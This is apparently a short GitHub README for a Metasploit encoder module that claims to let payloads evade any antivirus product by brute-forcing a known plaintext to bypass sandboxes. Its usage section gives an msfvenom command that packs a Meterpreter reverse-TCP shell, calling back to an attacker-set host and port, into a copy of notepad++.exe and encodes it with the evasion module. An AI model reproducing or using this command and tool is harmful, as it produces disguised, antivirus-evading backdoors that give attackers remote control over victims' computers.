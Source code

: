 # Metasploit Encryption

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.

![alt tag](https://github.com/MrMugiwara/Metasploit-Encrypter/blob/master/msfencrypt.png)


# Installation
-----------

Copy msfencrypt.rb in metasploit/modules/encoders/x86/

# Usage
-----------

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/msfencrypt -o output.exe


